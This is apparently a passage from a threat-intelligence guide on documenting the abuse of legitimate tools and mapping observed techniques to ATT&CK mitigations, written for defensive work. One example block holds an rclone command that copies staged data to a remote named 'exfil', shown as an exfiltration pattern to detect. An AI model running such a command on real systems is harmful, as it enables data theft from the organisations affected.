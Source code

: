 ### Tool Analysis Best Practices

**Legitimate Tool Abuse Documentation:**
- Baseline legitimate usage patterns
- Identify anomalous parameters or contexts
- Document evasion techniques (renaming, masquerading)
- Provide behavioral detection guidance

**Example: Rclone Analysis**
```
Tool: Rclone (cloud storage synchronization)
Legitimate Use: IT administration, backup operations
Malicious Use: Data exfiltration to adversary-controlled storage
Detection Focus: Unusual destinations, large transfer volumes, non-business hours
Command Example: rclone.exe copy C:\staged_data remote:exfil --transfers 32
ATT&CK Mapping: T1567.002 Exfiltration to Cloud Storage
```

**Malware Analysis Integration:**
- Static analysis results and capabilities
- Dynamic analysis and behavioral patterns
- Network communications and C2 protocols
- Persistence mechanisms and evasion techniques

## Actionable Defense Integration

### ATT&CK Mitigation Framework

**Structured Defense Guidance:**
- Link to official ATT&CK mitigations (M-codes)
- Reference ATT&CK data sources and components
- Provide implementation-specific guidance
- Include validation and testing procedures

**Example: Defense Mapping**
```
Observed Technique: T1566.001 Phishing: Spearphishing Attachment
ATT&CK Mitigation: M1049 Antivirus/Antimalware
Implementation Guidance:
- Deploy advanced email security with behavioral analysis
- Implement attachment sandboxing and detonation
- Configure real-time scanning with cloud intelligence
- Enable automatic quarantine and incident response
Data Source: Email Gateway (ATT&CK reference)
Detection: Monitor for suspicious email attachments and execution
```

### Multi-Layered Defense Strategy

**Prevention Controls:**
- Technical controls (network segmentation, access controls)
- Administrative controls (policies, procedures, training)
- Physical controls (facility security, device management)
- Regulatory compliance (industry standards, legal requirements)
